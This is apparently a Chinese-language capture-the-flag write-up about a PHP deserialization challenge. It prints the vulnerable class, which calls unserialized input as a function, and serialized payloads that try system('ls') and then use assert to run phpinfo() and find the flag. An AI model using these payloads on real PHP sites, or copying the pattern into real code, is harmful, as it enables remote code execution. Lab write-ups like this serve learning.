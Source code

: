 ![[Pasted image 20221201150134.png]]

---
首页长这样

![[Pasted image 20221201150215.png]]

查看前端代码，尝试寻找注入

![[Pasted image 20221201150309.png]]

```php
/time.php?source
```

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);

```

看样子是个简单的反序列化，尝试以下payload
```php
/time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:2:"ls";s:1:"b";s:6:"system";}
```
![[Pasted image 20221201154452.png]]

并没有反应，看来是`system`被ban了

`eval`作为特殊形式，本身不是函数，所以不能使用

尝试用`file_get_contents`读出和构造匿名函数，结果都失败了QAQ，一是不知道`flag`在什么文件里，二是匿名函数不能序列化

看网上大佬用的`assert`才想起来还有这玩意

`flag`不知道在哪个文件里，答案是作为环境变量了，要通过`phpinfo()`获得
```php
/time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```

![[Pasted image 20221201170810.png]]

这个在本地机上咋也跑不起来QAQ，然后查文档发现是本地机`php`版本太高了

![[Pasted image 20221201165741.png]]

![[Pasted image 20221201165815.png]]

#Web #PHP #反序列化 #bypass #assert #function #环境变量